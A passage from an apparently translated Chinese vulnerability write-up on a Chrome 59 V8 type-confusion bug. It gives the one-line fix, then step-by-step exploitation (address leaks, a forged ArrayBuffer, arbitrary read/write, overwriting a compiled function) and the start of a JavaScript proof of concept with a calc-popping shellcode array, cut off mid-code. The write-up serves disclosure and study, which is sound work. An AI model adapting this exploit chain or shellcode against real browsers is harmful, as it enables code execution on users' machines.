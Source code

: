 

**四、修复方法**

修复方法非常简单，只要在调用FindElementsKindTransitionedMap之前添加is_stable()检查函数即可。

[![](https://p4.ssl.qhimg.com/t01a80ac03bb38bbb7b.png)](https://p4.ssl.qhimg.com/t01a80ac03bb38bbb7b.png)

<br>

**五、完整的PoC**

使用如下PoC，我们可以攻击没有使用沙箱特性（–no-sandbox）的Chrome 59版本，弹出一个计算器（calc）。具体操作如下：

1、利用该漏洞来读取arraybuffer.proto的地址。

2、我们创建一个伪造的ArrayBuffer图（在图中使用arraybuffer proto的地址），利用该漏洞读取伪造图的地址。

3、利用伪造图的地址，我们可以根据该图创建一个伪造的ArrayBuffer对象，然后再次利用这个漏洞获取对象的地址。

4、我们利用这个漏洞，将指向伪造的ArrayBuffer的指针写入一个boxed元素数组，现在我们就可以从JS代码中正常访问我们伪造的ArrayBuffer。与此同时，我们可以编辑伪造的ArrayBuffer，将用户模式内存中的地址映射出来。因此现在我们掌握了完全的读取/写入权限。我们可以再一次利用这个漏洞，读取已编译函数的地址，然后使用读/写（R/W）权限将我们的shellcode覆盖这个地址，最后，调用这个函数执行我们的shellcode。



```
&lt;script&gt;
var shellcode = [0xe48348fc,0x00c0e8f0,0x51410000,0x51525041,0xd2314856,0x528b4865,0x528b4860,0x528b4818,0x728b4820,0xb70f4850,0x314d4a4a,0xc03148c9,0x7c613cac,0x41202c02,0x410dc9c1,0xede2c101,0x48514152,0x8b20528b,0x01483c42,0x88808bd0,0x48000000,0x6774c085,0x50d00148,0x4418488b,0x4920408b,0x56e3d001,0x41c9ff48,0x4888348b,0x314dd601,0xc03148c9,0xc9c141ac,0xc101410d,0xf175e038,0x244c034c,0xd1394508,0x4458d875,0x4924408b,0x4166d001,0x44480c8b,0x491c408b,0x8b41d001,0x01488804,0x415841d0,0x5a595e58,0x59415841,0x83485a41,0x524120ec,0x4158e0ff,0x8b485a59,0xff57e912,0x485dffff,0x000001ba,0x00000000,0x8d8d4800,0x00000101,0x8b31ba41,0xd5ff876f,0xa2b5f0bb,0xa6ba4156,0xff9dbd95,0xc48348d5,0x7c063c28,0xe0fb800a,0x47bb0575,0x6a6f7213,0x89415900,0x63d5ffda,0x00636c61]
var arraybuffer = new ArrayBuffer(20);
flag = 0;
function gc()`{`
    for(var i=0;i&lt;0x100000/0x10;i++)`{`
        new String;
    `}`
`}`
function d2u(num1,num2)`{`
    d = new Uint32Array(2);
    d[0] = num2;
    d[1] = num1;
    f = new Float64Array(d.buffer);
    return f[0];
`}`
function u2d(num)`{`
    f = new Float64Array(1);
    f[0] = num;
    d = new Uint32Array(f.buffer);
    return d[1] * 0x100000000 + d[0];
`}`
function change_to_float(intarr,floatarr)`{`
    var j = 0;
    for(var i = 0;i &lt; intarr.length;i = i+2)`{`
        var re = d2u(intarr[i+1],intarr[i]);
        floatarr[j] = re;
        j++;
    `}`
`}`
function change_elements_kind_array(a)`{`
    a[0] = Array;
`}`
optimizer3 = new Array(`{``}`); 
optimizer3.x3 = `{``}`;
```